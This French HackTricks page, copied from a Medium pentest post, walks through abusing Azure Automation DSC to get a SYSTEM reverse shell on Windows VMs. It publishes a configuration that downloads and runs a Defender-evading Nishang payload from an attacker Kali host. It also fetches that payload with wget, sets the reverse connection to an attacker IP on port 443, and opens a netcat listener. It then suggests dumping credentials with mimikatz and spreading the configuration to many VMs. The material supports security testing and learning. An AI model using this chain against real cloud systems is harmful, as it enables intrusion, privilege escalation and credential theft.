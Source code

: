 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Ce post a été copié de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée du payload Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la machine Kali. Le nom du payload sera "RevPS.ps1". Pour éviter que le script Nishang soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai ici une version allégée que vous pouvez utiliser qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Ce sera hébergé par un simple serveur Python Simple sur la machine Kali.

### Étape 1 — Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que nous avons précédemment utilisée. Cette fois, le contenu comprend du code pour télécharger et exécuter un payload depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible dans le module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs/payloads externes que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Étape 2 — Zipper le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous allons zipper le fichier **‘reverse\_shell\_config.ps1’** afin de pouvoir l'envoyer au compte de stockage
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Étape 3 — Définir le contexte de stockage et téléverser <a href="#bed9" id="bed9"></a>

Nous allons à nouveau configurer le contexte de notre compte de stockage, ce que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentest**', c'est donc là que je vais publier le mien :
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Étape 4 — Préparer la machine Kali <a href="#20fb" id="20fb"></a>

Dans notre machine Kali, nous pouvons simplement utiliser _wget_ pour télécharger notre payload PowerShell. Le script brut de reverse-shell se trouve ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Étape 5 — Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Nous allons maintenant exécuter notre fichier de configuration. J'ai configuré le mien pour qu'il soit publié sur le Bureau pour une meilleure visualisation, cependant, il peut être publié presque partout. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 6 — Héberger le Payload et Configurer l'Écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un SimpleHTTPServer Python sur le port 80 pour héberger le payload, ainsi qu'un écouteur netcat afin de capturer la connexion :
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Nous constatons que la tâche planifiée a été exécutée et notre charge utile a été récupérée et exécutée en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1ec2" id="1ec2"></a>

Cela ouvre désormais la porte à de nombreuses possibilités. Puisque nous avons un shell fonctionnant en tant que **SYSTEM,** nous pouvons extraire les identifiants avec mimikatz (potentiellement risqué selon la maturité de l'EDR pour les ressources cloud). Si vous extrayez des identifiants, il y a de fortes chances qu'ils puissent être réutilisés ailleurs sur différentes ressources. Enfin, un point important à retenir est que, au lieu de limiter cela à une seule VM, vous avez maintenant la capacité de potentiellement appliquer cette configuration à plusieurs VM.

Sur cette note, cela conclut nos aventures avec Azure Automation DSC ! J'espère que vous vous êtes amusés, que vous avez beaucoup appris et que vous continuerez à vous développer avec votre propre créativité.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
